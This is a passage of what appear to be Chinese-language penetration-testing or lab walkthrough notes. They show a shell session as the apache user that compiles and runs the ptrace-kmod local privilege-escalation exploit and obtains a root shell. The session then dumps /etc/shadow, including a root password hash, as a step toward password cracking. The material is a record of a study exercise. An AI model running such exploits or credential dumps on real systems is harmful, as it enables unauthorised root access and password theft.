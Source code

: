 							      0K ...                                                   100% @   3.74 MB/s
							  
							  06:04:53 (3.74 MB/s) - `ptrace-kmod.c' saved [3921/3921]
							  
							  bash-2.05$ ls -al
							  ls -al
							  total 6
							  drwxrwxrwt    2 root     root         1024 Mar  2 06:04 .
							  drwxr-xr-x   19 root     root         1024 Mar  2 04:31 ..
							  -rw-r--r--    1 apache   apache       3921 Apr  1  2003 ptrace-kmod.c
							  bash-2.05$ gcc -o exploit ptrace-kmod.c
							  gcc -o exploit ptrace-kmod.c
							  bash-2.05$ ls -al
							  ls -al
							  total 27
							  drwxrwxrwt    2 root     root         1024 Mar  2 06:05 .
							  drwxr-xr-x   19 root     root         1024 Mar  2 04:31 ..
							  -rwxr-xr-x    1 apache   apache      19920 Mar  2 06:05 exploit
							  -rw-r--r--    1 apache   apache       3921 Apr  1  2003 ptrace-kmod.c
							  bash-2.05$ ./exploit
							  ./exploit
							  [+] Attached to 6251
							  [+] Waiting for signal
							  [+] Signal caught
							  [+] Shellcode placed at 0x4001189d
							  [+] Now wait for suid shell...
							  
							  ls
							  exploit
							  ptrace-kmod.c
							  whoami
							  root
							  
							  ```
					- 嘗試密碼爆破
						- ```shell
						  cat /etc/shadow
						  root:$1$XROmcfDX$tF93GqnLHOJeGRHpaNyIs0:14513:0:99999:7:::
						  bin:*:14513:0:99999:7:::
						  daemon:*:14513:0:99999:7:::
						  adm:*:14513:0:99999:7:::
						  lp:*:14513:0:99999:7:::
						  sync:*:14513:0:99999:7:::
						  shutdown:*:14513:0:99999:7:::
						  halt:*:14513:0:99999:7:::
						  mail:*:14513:0:99999:7:::
						  news:*:14513:0:99999:7:::
						  uucp:*:14513:0:99999:7:::
						  operator:*:14513:0:99999:7:::
						  games:*:14513:0:99999:7:::
						  gopher:*:14513:0:99999:7:::
						  ftp:*:14513:0:99999:7:::
						  nobody:*:14513:0:99999:7:::
						  mailnull:!!:14513:0:99999:7:::
						  rpm:!!:14513:0:99999:7:::
						  xfs:!!:14513:0:99999:7:::
						  rpc:!!:14513:0:99999:7:::
						  rpcuser:!!:14513:0:99999:7:::
						  nfsnobody:!!:14513:0:99999:7:::
						  nscd:!!:14513:0:99999:7:::
						  ident:!!:14513:0:99999:7:::
						  radvd:!!:14513:0:99999:7:::
						  postgres:!!:14513:0:99999:7:::
						  apache:!!:14513:0:99999:7:::
						  squid:!!:14513:0:99999:7:::